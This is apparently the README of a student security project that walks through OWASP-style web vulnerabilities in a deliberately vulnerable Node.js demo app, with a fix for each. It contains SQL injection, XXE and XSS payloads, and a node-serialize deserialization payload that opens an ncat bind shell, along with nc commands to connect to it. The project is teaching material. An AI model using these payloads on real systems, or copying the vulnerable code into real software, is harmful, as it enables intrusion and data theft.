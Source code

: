 # CS467: Website Security Research Project

This project will explore the web vulnerabilities outlined in the article <a href="https://www.vpnmentor.com/blog/top-10-common-web-attacks/">Top 10 Common Web Attacks: The First Steps to Protect Your Website</a>. These vulnerabilities are categorized as follows:

* [Injection](#1-injection)
* [Broken Authentication](#2-broken-authentication)
* [Sensitive Data Exposure](#3-sensitive-data-exposure)
* [XML External Entities](#4-xml-external-entities)
* [Broken Access Control](#5-broken-access-control)
* [Security Misconfiguration](#6-security-misconfiguration)
* [Cross-Site Scripting](#7-cross-site-scripting)
* [Insecure Deserialization](#8-insecure-deserialization)
* [Using Components with Known Vulnerabilities](#9-using-components-with-known-vulnerabilities)
* [Insufficient Logging & Monitoring](#10-insufficient-logging--monitoring)

These vulnerabilities will be explored through a demonstration app, datapotato:
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_black.svg#gh-light-mode-only" width=50% height=50%>
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_white.svg#gh-dark-mode-only" width=50% height=50%>

The code provided in this repo intentionally redacts the credentials in the <code>dbcon.js</code> required to connect to the SQL database.

# 1. Injection 
<details>
  <summary>
    Details
  </summary>
  
### Description

  |Source|Definition|
  |---|---|
  |Wikipedia|**Code injection** is the exploitation of a computer bug that is caused by processing invalid data|
  |OWASP|**Injection** is an attacker’s attempt to send data to an application in a way that will change the meaning of commands being sent to an interpreter|
  |IBM|This type of attack allows an attacker to **inject code** into a program or query or inject malware onto a computer in order to execute remote commands that can read or modify a database, or change data on a web site|
  
  These definitions are intentionally broad, as this concept appears in many environments. Our sources above list multiple subcategories of injection vulnerabilities:
  
  * Wikipedia: SQL injection, Cross-site scripting, Dynamic evaluation vulnerabilities, Object injection, Remote file injection, Format specifier injection, Shell injection
  * OWASP: SQL queries, LDAP queries, Operating system command interpreters, Any program invocation, XML documents, HTML documents, JSON structures, HTTP headers, File paths, URLs, A variety of expression languages
  * IBM: Blind SQL Injection, Blind XPath Injection, Buffer Overflow, Format String Attack, LDAP Injection, OS Commanding, SQL Injection, SSI Injection, XPath Injection
  
  ---
  
### Demonstration
  We'll focus on a specific flavor of injection vulnerability, SQLi (SQL injection).
  
  In this example, users are able to submit a request for data, for any individual user:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName1.PNG">
  
  This sends the following request to our SQL table:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1'
  ```
  
  Result:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  
  Now, let's inject a logical statement that our developers probably didn't intend to be used.  
  (This statement closes an open string, adds a logical OR, and comments out the rest of the SQL request body):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName2.PNG">
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1' or TRUE
  ```
  
  This returns all rows in our table, because TRUE always evaluates to TRUE:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  |user2|user2's data|
  |user3|user3's data|
  |[...]|[...]|
  
  You can try a live demo of this here (requires connection to OSU VPN):
  <a href="http://flip3.engr.oregonstate.edu:37773/injection#demonstration">[LINK TO WEB APP]</a>
  
  In this example, we've allowed the user to execute arbitrary SQL queries on our database. Our data is no longer secure or reliable. 
 
  ---  

### Remediation
  
  Remediation for injection vulnerabilities are specific to the context of the application. We will provide recommendations for the specific example above.
  
  OWASP advises vulnerabilities like the SQLi example above are failures of the **injection context**, specifically the SQL query. OWASP recommends the first defense in this context is escaping, in which we ensure data is treated like data, rather than an extension of the functionality or logic the query.
  
  MariaDB provides a method to bind data values to our query at the time it is executed, preventing the injection of additional commands.
  
  We'll convert our SQL query to a paramaterized query:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName=?
  ```
  
  This time, if you didn't enter a valid userName, you won't retrieve any results, since "user1' or TRUE; #" is not a valid user. This query is hardened against arbitrary SQL commands entered by our users.
 
  ---
  
### Citations: Injection
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Code_injection (accessed Jan 29, 2022).
  
  J. Williams. "Injection Theory". OWASP.  
  https://owasp.org/www-community/Injection_Theory (accessed Jan 29, 2022).
  
  "Injection Attacks." IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-injection-attacks (accessed Jan 29, 2022).
  
  "PREPARE Statement". MariaDB.  
  https://mariadb.com/kb/en/prepare-statement/ (accessed Feb 10, 2022)
</details>

# 2. Broken Authentication
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(now referred to as Identification and Authentication Failures) Confirmation of the user's identity, authentication, and session management is critical to protect against **authentication-related attacks**|
  |IBM| This type of attack targets and attempts to **exploit the authentication process** a web site uses to verify the identity of a user, service, or application|
  
  This is another broad category. There are many types of authentication in use. IBM divides these attacks into 3 categories:
  * Brute force
  * Insufficient authentication
  * Weak password recovery
  
  Our app won't implement a password recovery system, so we'll focus on the other two attacks.
  
  ---
  
### Demonstration
  The most basic attack in this category is brute force, either guessing credentials or using an automated process to gain access to restricted systems or data.
  
  We've set up an `/admin` route that allows direct read accesss for our web app's data. To access this route, you'll need to know the admin username an password.
  
  To make it easy, we'll pick one of the [OWASP Top 10000 Worst Passwords](https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt). Can you guess which one it is?
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/admin.PNG">
  
  If you brute-forced this answer and visit the [ADMIN page](http://flip3.engr.oregonstate.edu:37773/admin) (requires connection to OSU VPN), you'll see all our user data.
  
  ---
  
### Remediation
  
  There are multiple ways we can harden our app against this vulnerability.
  
  First, we'll change the password to something harder to guess. Because password strength recommendations vary widely, we'll combine recommendations from a few sources:
  
  |Source|Recommendation|
  |---|---|
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Minimum length of the passwords should be enforced by the application. Passwords shorter than 8 characters are considered to be weak
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Maximum password length should not be set too low, as it will prevent users from creating passphrases. A common maximum length is 64 characters [...] It is important to set a maximum password length to prevent long password Denial of Service attacks.|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A length of 15-50 characters|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A combination of at least two-character types from the following options: uppercase[A-Z], lowercase[a-z], number[0-9], and special characters. The valid non-alphabetic characters include the following characters hyphen (-), underscore (_), period (.), and special characters such as !@#$%&|
  
  We'll also use a password strength meter application like [zxcvbn](https://github.com/dropbox/zxcvbn) to ensure the password we pick is safe against brute force attacks. (See also: [interactive web implementation of zxcvbn](https://lowe.github.io/tryzxcvbn/))
  
  Now that we've got our strong password, we'll salt it and hash it using the [Crypto nodejs module](https://nodejs.org/api/crypto.html) before saving it in our database. This fixes two more vulnerabilities:
  
  Salting: This is a randomized string concatenated with the password before hashing, to ensure that if the hashing mechanism is compromised, an attacker can't automatically solve for all the other passwords in the database.
  
  Hashing: This increases the complexity of the plaintext password before saving it to our database, ensuring someone with access to the database can't read the plaintext version of the password.
  
  These changes are impemented for our users in the hardened web app.
  
  ---
  
### Citations: Broken Authentication
  "A07:2021 – Identification and Authentication Failures". OWASP top 10:2021.  
  https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/ (accessed Feb 10, 2022).
  
  "Authentication attacks". IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-authentication-attacks (accessed Feb 10, 2022).
  
  D. Whitelegg. "Scan your app to find and fix OWASP Top 10 - 2017 vulnerabilities". IBM Developer.  
  https://developer.ibm.com/tutorials/se-owasp-top10/ (accessed Feb 10, 2022).
  
  "10k-worst-passwords.txt". OWASP / passfault.  
  https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt (accessed Feb 10, 2022).

  "Authentication Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html (accessed Feb 12, 2022).
  
  "Password guidelines". Search in IBM Sterling Partner Engagement Manager.  
  https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines (accessed Feb 12, 2022).
  
  "zxcvbn". dropbox / zxcvbn.  
  https://github.com/dropbox/zxcvbn (accessed Feb 12, 2022).
  
  "demo". zxcvbn tests.  
  https://lowe.github.io/tryzxcvbn/ (accessed Feb 12, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html (accessed Feb 12, 2022).

  "How to use the crypto module". Node.js.  
  https://nodejs.org/en/knowledge/cryptography/how-to-use-crypto-module/ (accessed Feb 13, 2022).
 </details>
  
# 3. Sensitive Data Exposure
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(See "Cryptographic Failures")[...] the focus is on **failures related to cryptography** (or lack thereof) [...] (which) often lead to exposure of sensitive data"
  |vpnMentor|Secret data usually needs to be **protected with encryption** and other cryptographic algorithms|
  
  ---
  
### Demonstration
  
  Any endpoint that can access our user data will be able to see the userData column in plaintext. (Users on the OSU VPN can use the exploit in the [Broken Authentication](#2-broken-authentication) section to access this data.) 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/userData.PNG">
  
  ---
  
### Remediation
  
  The most direct route for us to fix this is to encrypt our users' data.
  
  Fortunately, the <code>crypto</code> nodejs module we're using to salt and hash our user passwords also includes <code>cipher</code> and <code>decipher</code> classes we can use to encrypt this part of our database.
  
  (OSU VPN users only) This utility is live on the [/admin route](http://flip3.engr.oregonstate.edu:37773/admin) and you can see a snapshot of the web app utility here.
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt1of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt2of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt3of3.png">
  
  ---
  
### Citations: Sensitive Data Exposure
  
  "A02:2021 – Cryptographic Failures". OWASP Top 10:2021.  
  https://owasp.org/Top10/A02_2021-Cryptographic_Failures/ (accessed Feb 13, 2022).
  
  Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.  
  https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Feb 13, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html#class-cipher (accessed Feb 16, 2022).
  
</details>

# 4. XML External Entities
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |OWASP|An **XML External Entity attack** is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.|
  |IBM| [Vulnerable software] could allow a remote attacker to obtain sensitive information, caused by an **XML External Entity Injection** (XXE) error when processing XML data. An attacker could declare an entity referencing the content of a local file to obtain sensitive information.|
  
  A basic XML file with a defined entity looks like this:
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar</foo>
  ```
  
  Here's how Firefox and Chrome render this XML:
  
  Firefox:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooFirefox.PNG">
  
  Chrome:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooChrome.PNG">
    
  ---
  
### Demonstration
  
  The issue at hand is that the [document type declaration](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd) can be configured to access internal or external references.
  
  External entities, such as ones that point to server resources, or malicious URLs, are our primary concern. Here are is an example of a potentially harmful XML request (from the [OWASP website](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).) This request could send an attacker information about critical system files:
  
  ```
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
  <foo>&xxe;</foo>
  ```
  
  Because many modern node libraries do not support expansion of external entities, your researchers were not able to find a library which sufficiently demonstrated this vulnerability compatible with our node setup. In lieu of a live demonstration, please consider the following well-documented examples:
  
  [XML Entity Expansion in NodeJS](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html)  
  [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)  
  
  ---
  
### Remediation
  
  Developers should consider all of their XML parsing dependencies carefully, and ensure any custom XML parsing implementations have external entity expansion off by default. 
  
  Popular npm XML parsing utilities such as [express-xml-bodyparser](https://www.npmjs.com/package/express-xml-bodyparser) will automatically prevent entities from being defined, by throwing an error if an unescaped ampersand is encountered. Here's what happens when we send an XML POST to our endpoint with an ampersand using this package:
  
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar;</foo>
  ```
  Returns <code>Error: Invalid character entity</code>
  
  In our hardened web app, we'll return a <code>400 BAD REQUEST</code> error if we receive a request of this type. This will limit the types of XML requests we can process, but it will ensure protection against this vulnerability. Try using an API like [Postman](https://www.postman.com/) to send your own XML request to the server.
  
  ---
  
### Citations: XML External Entities
  "XML External Entity (XXE) Processing". OWASP.  
  https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing (accessed Feb 20, 2022).
  
  "IT06733: A vulnerability in XML External Entity (XXE) processing could allow a remote attacker to obtain sensitive information.". IBM Support.  
  https://www.ibm.com/support/pages/apar/IT06733 (accessed Feb 20, 2022).
  
  "XML introduction". MDN Web Docs.  
  https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction (accessed Feb 20, 2022).
  
  "Load external DTDs (entity/entities) (local and remote) if a pref is set". Bugzilla.  
  https://bugzilla.mozilla.org/show_bug.cgi?id=22942 (accessed Feb 20, 2022).
  
  "express-xml-bodyparser". npmjs.com.  
  https://www.npmjs.com/package/express-xml-bodyparser (accessed Feb 20, 2022).
  
  "Prolog and Document Type Declaration". w3.org.  
  https://www.w3.org/TR/REC-xml/#sec-prolog-dtd (accessed Feb 20, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 20, 2022).
  
  "XML Entity Expansion in NodeJS". SecureFlag.  
  https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html (accessed Feb 23, 2022).
  
  "XML External Entity Prevention Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html (accessed Feb 23, 2022).
  
</details>

# 5. Broken Access Control
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|In the fields of physical security and information security, **access control** (AC) is the selective restriction of access to a place or other resource|
  |OWASP|**Access control** enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits|
  |IBM|**Access control** mechanisms determine which operations the user can or cannot do by comparing the user's identity to an access control list (ACL)|
  
  In our first 5 vulnerabilities, this category affects the most code. Every piece of data, endpoint, and access mechanism should be considered with respect to this topic.
  
  OWASP goes on to provide a [broad list of vulnerabilities](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) in this category:
  
  * Violation of the principle of least privilege or deny by default, where access should only be granted for particular capabilities, roles, or users, but is available to anyone.  
  * Bypassing access control checks by modifying the URL (parameter tampering or force browsing), internal application state, or the HTML page, or by using an attack tool modifying API requests.  
  * Permitting viewing or editing someone else's account, by providing its unique identifier (insecure direct object references)  
  * Accessing API with missing access controls for POST, PUT and DELETE.  
  * Elevation of privilege. Acting as a user without being logged in or acting as an admin when logged in as a user.  
  * Metadata manipulation, such as replaying or tampering with a JSON Web Token (JWT) access control token, or a cookie or hidden field manipulated to elevate privileges or abusing JWT invalidation.  
  * CORS misconfiguration allows API access from unauthorized/untrusted origins.  
  * Force browsing to authenticated pages as an unauthenticated user or to privileged pages as a standard user.  

  ---
  
### Demonstration
  
  Our app is currently vulnerable to two of the access control failures above: bypassing access control checks by modifying the URL and accessing the API with missing access controls.
  
  During development, we created a route (OSU VPN users only) [/adminTest](http://flip3.engr.oregonstate.edu:37773/adminTest) to test admin functionality. This page was created before we implemented Session authentication. However, we forgot to remove this route or remediate the access control on this page. Even though there is no link to this page on our site, if someone discovered this route they'd be able to access many of our admin utilities normally protected with userName/password authentication.
  
  The other access control failure can be demonstrated with any utility that can send an HTTP request. Here, we'll use [Postman](https://www.postman.com/). 
  
  Our web app will process any valid HTTP request sent to it without requiring authentication. Let's POST to [/admin](http://flip3.engr.oregonstate.edu:37773/admin) and use the admin utility to reset the database: 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/postToAdmin.png">
  
  We were able to do this because there's no access control on that route. All of our custom user data has been lost!  
  
  ---
  
### Remediation
  
  In our hardened app, we'll make to two changes to remediate these failures:
  
  1. The <code>/adminTest</code> route will be removed
  2. All reqest types sent to the <code>/admin</code> route will require the same Session authentication confirming the user that is signed in has admin credentials.
  
  Additional remediations we could take include:
  * Using more advanced authentication such as JWTs
  * Enforcing "least privilege" principles where certain utilities are only available to specific user groups
  * Increased logging
  * Disabling directory browsing
  
  ---
  
### Citations: Broken Access Control
  "A01:2021 – Broken Access Control". OWASP Top 10:2021.  
  https://owasp.org/Top10/A01_2021-Broken_Access_Control/ (accessed Feb 21, 2022).
  
  "Authentication versus access control". IBM Watson Content Analytics.  
  https://www.ibm.com/docs/en/wca/3.0.0?topic=security-authentication-versus-access-control (accessed Feb 21, 2022).
  
  "Access Control". Wikipedia.  
  https://en.wikipedia.org/wiki/Access_control (accessed Feb 21, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 21, 2022).
  
</details>

# 6. Security Misconfiguration
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|**Security Misconfiguration** can happen at any level of an application stack, including the network services, platform, web server, application server, database, frameworks, custom code, and pre-installed virtual machines, containers, or storage.|
  |The Hackerish|**Security Misconfiguration** happens when the responsible party fails to follow best practices when configuring an asset.  This asset can be an operating system, a web server, software running on a machine, etc. Security Misonfigurations don't affect web assets only.  Any component which requires a configuration is subject to this vulnerability.  This means network devices, hardware, email services, etc. can suffer from this vulnerability.|
  |Guardiacore|**Security Misonfiguration** is simply defined as failing to implement security controls for a server or web application, or implementing the security controls, but doing so with error.|
  
  ---
### Demonstration
  From the definitions, it is clear that **Security Misoncfiguration** affects more than just the web application, which in our case is the nodejs application, the libraries we are using, and our database.
  
  For the purposes of this demonstration, we'll focus on the Server itself, which in this case if the Oregon State flip3 server where our vulnerable web application is hosted.  More specificically we'll look at configuration of the ports and protocols.
  
  One of the tenets of good network security is to only open network ports that are necessary. However, because of the nature of the flip3 server, it is required to be fairly open, otherwise it would not be possible to host student web applications - including ours.
  
  To put in perspective how open the flip3 server is, I conducted an nmap scan:
  
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan1.png" alt="flip_scan1" height="50%" width="100%">
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan2.png" height="50%" width="100%">
  
  The simple nmap scan can provide an attacker a wealth of information, but more importantly, each open port/protocal provides an attacker a potential attack vector against the system or application.
  
  ---
### Remediation
  For obvious reasons, we do not have the privileges necessary to harden the flip3 server, however, we do have those privileges on our AWS instance.
  
  In our AWS instance we can control which ports/protocols are exposed through the use of **Security Groups** and **Network ACLs**.  For our purposes, we'll only use the Security Group.
  
  Each EC2 instance in our AWS Virtual Private Cloud (VPC) must have a security group associated with it.  A security group acts a firewall.  We can define a range of source IPs from the Internet that communicate with our EC2 instance, and we can define the ports on our EC2 instance that can be reached.
  
  We created the following rule:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_security_group.png" width="100%">
  
  This only exposes the TCP port 37773 to anyone on the Internet (0.0.0.0), significantly reducing the attack surface area of our system/application.
  
  Screenshot of an nmap scan before the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_before.png" width="100%">
  
  Screenshot of an nmap scan after the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_after.png" width="100%">
  
  As we can see, the information a potential attacker is able to obtain is limited, but more importantly our attack surface area is greatly reduced.
  
  ---
### Citations: Security Misconfiguration
  "Security Misconfiguration". OWASP.  
  https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration (accessed Feb 22, 2022).
  
  "Security Misconfiguration Explained". The Hackerish.  
  https://thehackerish.com/owasp-security-misconfiguration-explained/ (accessed Feb 19, 2022).
  
  "What is Security Configuration and How to Avoid It" Guardiacore.  
  https://www.guardicore.com/blog/understanding-and-avoiding-security-misconfiguration/ (accessed Feb 19, 2022).
</details>

# 7. Cross-Site Scripting
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|**XSS** is a type of security vulnerability that can be found in some web application. XSS attacks enable attackers to inject **client-side scripts** into web pages viewed by other users.|
  |OWASP|**XSS** attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.|
  |IBM<|**XSS** is a computer securit vulnerability that allows malicious attackers to inject client-side script into web pages viewed by other users.|

  In summary, XSS is an attack on vulnerable web applications that allows a malicious actor to inject client-side script, e.g. javascript, into web pages.
                
  ---
### Demonstration
  In this first example, we will start off with benign input. Here's what users of the web app will see when they type **Hello World!** and select "Submit" in this example.
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssHelloWorld.png">
    
  This posts the following to our web application, which is then rendered by our express handlebars templating engine.

  ```
  req.body.userInput
  ```
    
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssDemonstrationResult.png">
    
  Now we'll inject a script into the web app, something the developers probably didn't intend to be used.
    
  Here's what users of the app will see when they type **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
                
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScript.png">
  
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScriptResult.png">
  
  In this example, we've allowed the user to inject a client-side script into our web application.
  
  ---
### Remediation
  There many methods to remediate XSS vulnerabilities. Most techniques revolve around sanitizing user input.
        
  Our web application is succeptible to XSS because the handlebars engine renders user provided input exactly as written.

  Specifically, the vulnerable piece of code in our handlebars template is:

  ```
  {{{input}}}
  ```

  Use of the triple brackets will render all user input exactly as written.

  We can prevent script injection by using double brackets as so:

  ```
  {{input}}
  ```

  Users can again attempt to inject the XSS script again into our web application:

  **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssRemediation.png">
  
  Use of double brackets in handlebars escapes special characters such as '&lt;' and '&gt;', which are often used in XSS attacks.
  
  ---
### Citations: Cross-Site Scripting
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Cross-site_scripting (accessed Feb 14, 2022).  
  
  KirstenS. "Cross Site Scripting (XSS)". OWASP.  
  https://owasp.org/www-community/attacks/xss/ (accessed Jan 29, 2022).  
  
  "Cross Site Scripting (XSS) Filter." IBM.  
  https://www.ibm.com/docs/en/sc-and-ds/8.2.0?topic=manager-cross-site-scripting-xss-filters (accessed Feb 15, 2022).  
  
  "Expressions." Handlebars Online User Guide.  
  https://handlebarsjs.com/guide/expressions.html (accessed Feb 10, 2022).
  
</details>

# 8. Insecure Deserialization
<details>
  <summary>
    Details
  </summary>
  
### Description
  In order to understand what **Insecure Deserialization** is, we must first define **serialization.**
  
  Wikipedia defines **serialization** as the process of translating a data structure or object state into a format that can be stored (e.g. in a file or memory buffer) or transmitted (e.g. over a network) and reconstructed later (possibly in a different computer envrinoment). When the resulting series of bits is re-read according to the serialization format, it can be used to create a semantically identical clone of the original object.
  
  |Source|Definition|
  |---|---|
  |Search Security|**Inseucre Deserialization** is a vulnerability in which an untrusted or unknown data is used to either inflict a DoS, execute code, bypass authentication or further abuse logic behind the application. **Serialization** is the proces that converts an object to a format that can be later restored. **Deserialization** is the opposing process which takes data from a file, stream or network and rebuilds it into an object.|
  |Portswigger|**Insecure Deserialization** is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized object in order to pass harmful data into the application code.|
  
  ---
### Demonstration
  Our web application makes use of the node package **"node-serialize"** to serialize and deserialize objects.
  
  In this first example, we will start off with benign input. We will serialize a simple JSON object and then deserialize it. Type:
  
  ```
  {test:123}
  ```
  
  and select "Submit". Here's what that looks like in our [web app (OSU VPN users only)](http://flip3.engr.oregonstate.edu:37773/insecureDeserialization):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization1.PNG">
  
  We'll now deserialize the serialized object, which should return the original input <code>{test:123}</code>. Here's the result from our web app.

  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization2.PNG">
  
  We'll now utlize a more nefarious input which will allow us to create a BIND Shell on our server. In the web app, type in the following:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  In a command line terminal, preferably linux, connect to the bind shell.
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  The vulnerable piece of code in our web application is:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var deserialized = serialize.unserialize(obj)
  ```
  
  We are deserializing unsanitized user input.
  
  The issue lies in the fact that the node-serialize package allows for the serialization and deserialization of JSON objects which have functions defined.
  
  In nefarious payload, we created a JSON object with the key **"rce"** which had function definend as its value.
  
  According to [Aleski Turin](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/), a serialized object with a function defined has the following form:
  
  ```
  {"anything_here":"_$$ND_FUNC$$_function (){сonsole.log(1)}"}
  ```
  
  Anything after the special tag <code>$$ND_FUNC$$</code> is evaluated in the eval function.  This is what allows malicious users to execute arbitrary code on our web application.
  
  ---
### Remediation
  We can mitigate/prevent this vulnerability from being exploited by sanitizing user input.
  
  In our sanitized code, we make use of the <code>JSON.stringify</code> function:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var sanitized = JSON.stringify(obj)
  var deserialized = serialize.unserialize(sanitized)
  ```
  
  If we attempt to enter the malicious code again, and try to connect to the BIND shell, it will fail.
  
  If you enter the following code again in our sanitized form, here's what you'll see:
  
  ><img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization3.PNG">
  
  Our web application can now safely deserialize the user input:
  
  ```
  {test:123}
  ```
  
  If you attempt to connect to the BIND shell, it no longer works. Try it:
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  ---
### Citations: Insecure Deserialization
  "Deserialization vulnerabilities: attacking deserialization in JS" Acunetix.  
  https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/ (accessed Feb 20, 2022).
  
  "Exploiting Node.js deserialization bug for Remote Code Execution". OPSECX.  
  https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ (accessed Jan 29, 2022).
  
  "Serialization" Wikipedia.  
  https://en.wikipedia.org/wiki/Serialization (accessed Feb 15, 2022).
  
  "What is Insecure Deserialization." Acunetix.  
  https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/ (accessed Feb 10, 2022).
</details>

# 9. Using Components with Known Vulnerabilities
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
